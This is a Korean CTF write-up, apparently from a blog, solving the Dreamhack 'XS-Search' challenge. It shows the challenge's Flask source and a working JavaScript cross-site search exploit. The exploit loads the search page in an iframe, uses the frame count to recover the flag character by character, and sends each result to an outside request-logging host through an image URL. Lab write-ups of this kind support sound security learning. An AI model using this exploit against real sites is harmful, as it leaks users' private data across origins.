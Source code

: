 ```yaml
---
title: (37) Dreamhack XS-Search 문제 풀이
date: 2024-02-14 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
플래그는 `DH{[0123456789abcdef]{32}}`의 포맷입니다.

## 문제 풀이
이번 문제는 개인 서버를 이용하거나 html 호스팅을 해주는 사이트를 이용해야 풀 수 있는 문제입니다. 포트포워딩하시고 직접 서버 여셔도 됩니다.
![](https://kyuyeop.github.io/assets/img/post/37/1.png)
사이트에 들어온 모습입니다.
![](https://kyuyeop.github.io/assets/img/post/37/2.png)
search 페이지 입니다. 여기에 뭔가를 입력하면
![](https://kyuyeop.github.io/assets/img/post/37/3.png)
이렇게 뭔가 나옵니다.
![](https://kyuyeop.github.io/assets/img/post/37/4.png)
이런 페이지가 나오기도 합니다.
![](https://kyuyeop.github.io/assets/img/post/37/5.png)
submit에서는 주소를 입력하는 창이 보입니다.  
  
뭘 하는건지 잘 모르겠으니 코드를 확인해 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.common.exceptions import TimeoutException
from urllib.parse import urlparse
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

notes = {
    (FLAG, True), 
    ("Hello World", False), 
    ("DreamHack", False), 
    ("carpe diem, quam minimum credula postero", False)
}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(url)
    except TimeoutException as e:
        driver.quit()
        return True
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


@app.route("/")
def index():
    return render_template('index.html')


@app.route('/search')
def search():
    query = request.args.get('query', None)
    if query == None:
        return render_template("search.html", query=None, result=None)
    for note, private in notes:
        if private == True and request.remote_addr != "127.0.0.1" and request.headers.get("HOST") != "127.0.0.1:8000":
            continue
        if query != "" and query in note:
            return render_template("search.html", query=query, result=note)
    return render_template("search.html", query=query, result=None)


@app.route("/submit", methods=["GET", "POST"])
def submit():
    if request.method == "GET":
        return render_template("submit.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        if not urlparse(url).scheme.startswith("http"):
            return '<script>alert("wrong url");history.go(-1);</script>'
        if not read_url(url):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


app.run(host="0.0.0.0", port=8000)
```
search페이지는 `notes`에서 일치하는게 있다면 찾아주는 모양입니다. `localhost`로 들어갔을때는 FLAG를 포함해서 검색하네요.  
`/submit`을 보니 url을 post로 받고, http로 시작하는 url이면 `read_url`함수를 호출해 서버에서 해당 페이지에 방문하도록 만듭니다.  
  
사이트를 보면 일치하는 검색결과가 있으면 내용을 iframe으로 보여줍니다.  
따라서 서버가 search페이지에 방문해서 검색을 한 후, iframe의 개수를 세어 봤을때 0이 아니라면 일치하는 결과가 있다고 생각할 수 있습니다.  
  
이를 이용해서 서버가 iframe을 이용해 search페이지를 로드하고 그 내용을 받아올 수 있으면 문제를 풀 수 있습니다. 아래는 드림핵에서 제공하는 코드입니다.~~(제 코드보다 깔끔해서 들고왔습니다)~~
```html
<iframe id="iframe"></iframe>
<img id="img">
<script>
    async function req(url) {
        return await new Promise((resolve, reject) => {
            const iframe = document.getElementById("iframe");
            iframe.src = url;
            iframe.onload = () => { 
                if (iframe.contentWindow.frames.length != 0)
                    return resolve();
                else
                    return reject();
            };
        });
    }

    async function search(query) {
        try {
            await req(
              `http://localhost:8000/search?query=${query}`
            );
            return true;
        } catch (e) {
            return false;
        }
    }

    async function exploit() {
        let chars = "0123456789abcdef}"
        let secret = "DH{";

        while (!secret.includes("}")) {
            for (let c of chars) {
                if (await search(secret + c)) {
                    secret += c;
                    img.src = `https://gkiikjh.request.dreamhack.games/${secret}`;
                    break;
                }
            }
        }
    }

    exploit();
</script>
```
코드를 해석하면 `0123456789abcdef}`를 돌면서 한번씩 넣어보고 맞는게 있다면 `secret`에 찾은 문자를 추가하고 `<img id="img" src="">`를 이용해 외부로 요청을 보냅니다. 같은 과정을 반복하면서 `}`가 나올때까지 while을 돌립니다.  
  
위 내용을 `index.html`로 저장하고 서버를 열고 submit페이지에 제 서버의 주소를 넣었습니다.  
  
그러면 드림핵의 로그에 flag가 찍혀나오는걸 볼 수 있습니다.
![](https://kyuyeop.github.io/assets/img/post/37/6.png)
근데 보시면 나오다가 말았습니다. 이유는 드라이버가 3초 동안만 페이지를 로드 하기 때문입니다. 위에서 얻은 내용을 `secret`변수에 추가해줍니다.
```javascript
    async function exploit() {
        let chars = "0123456789abcdef}"
        let secret = "DH{22d1445ad68e1";

        while (!secret.includes("}")) {
            for (let c of chars) {
                if (await search(secret + c)) {
                    secret += c;
                    img.src = `https://bdtmaue.request.dreamhack.games/${secret}`;
                    break;
                }
            }
        }
    }
```
이 과정을 두번 정도 반복해주면
![](https://kyuyeop.github.io/assets/img/post/37/7.png)
flag를 얻을 수 있습니다.
{% endraw %}